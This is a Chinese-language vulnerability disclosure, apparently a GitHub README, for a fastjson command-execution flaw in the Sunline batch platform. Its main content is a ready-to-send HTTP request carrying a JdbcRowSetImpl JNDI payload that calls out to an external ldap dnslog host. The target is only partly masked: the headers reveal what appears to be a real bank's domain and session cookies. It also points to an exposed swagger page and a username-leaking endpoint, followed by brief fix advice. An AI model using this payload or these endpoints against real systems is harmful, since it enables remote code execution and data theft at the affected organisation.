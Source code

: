 长亮sunline跑批平台接口存在fastjson命令执行漏洞
漏洞地址：https://xxxxxxx/loader/api/uiAuth/login

         https://xxxxxxx/loader/api/uiAuth/reset-password-sendmail
         
漏洞描述：长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞详情：

1、接口存在fastjson命令执行漏洞
![image](https://github.com/ranhn/Sunline/assets/107679328/2a018bf1-faf5-4fef-84a0-e16bc44661d5)
POST /loader/api/uiAuth/reset-password-sendmail HTTP/1.1
Host: xxxxxx.com.ph
Cookie: acw_tc=0bc1a14316933660392643949e455a577eede41c8a82de5b661a2f4841446e; JSESSIONID=D34E1ED55B1F03E9068D984A58F487D8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://bk-assistant.ownbank.com.ph/
Content-Type: application/json
If-Modified-Since: 0
Content-Length: 129
Origin: https://bk-assistant.ownbank.com.ph
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close

{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap://r0mkls.dnslog.cn”, “autoCommit”:true}
![image](https://github.com/ranhn/Sunline/assets/107679328/f0994785-72c3-4d76-ba7b-e17b6ab1a77a)
2、同时存在接口文档暴露问题
https://xxxxxxx.com.ph/swagger-ui.html
![image](https://github.com/ranhn/Sunline/assets/107679328/4309d4a0-e3de-49c9-baea-c0498f59ca56)
https://xxxxxxx.com.ph/loader/syncResourcesNotify/users 返回用户名
![image](https://github.com/ranhn/Sunline/assets/107679328/44cfc0a8-91cd-479a-aecc-1ed2b51d16e8)

漏洞版本：版本未知（没有版本概念）
修复建议：
1、升级到最新版本。
2、接口敏感信文档做鉴权。
